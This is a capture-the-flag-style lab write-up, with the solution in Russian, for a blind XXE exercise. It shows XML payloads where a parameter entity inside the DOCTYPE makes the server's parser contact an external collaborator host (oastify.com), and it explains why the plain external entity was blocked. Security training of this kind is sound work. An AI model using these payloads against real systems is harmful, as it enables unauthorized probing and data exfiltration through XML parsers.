 # Blind XXE with out-of-band interaction via XML parameter entities
PRACTITIONER

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Решение
Отправлю стандартный XML с внешней сущностью:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any [<!ENTITY dummy SYSTEM "2sv8kjylzw24ktz6ijr8lle07rdi19py.oastify.com"]>
<stockCheck>
<productId>1</productId>
<storeId>&dummy;</storeId>
</stockCheck>
```
Ответ: `"Entities are not allowed for security reasons"`

Вместо использования в теле XML внешней сущности объявлю т.н. "parameter entity" и применю его внутри DOCTYPE: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % dummy SYSTEM "http://udb05bjdkonw5lky3bc06dzssjyam2ar.oastify.com"> %dummy; ]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```
Задание выполнено.

Странно, но так тоже работает (`<!DOCTYPE any`):
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any [<!ENTITY % dummy SYSTEM "http://uwu0ob2d3o6wol3ymbv0pdisbjha58tx.oastify.com"> %dummy; ]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```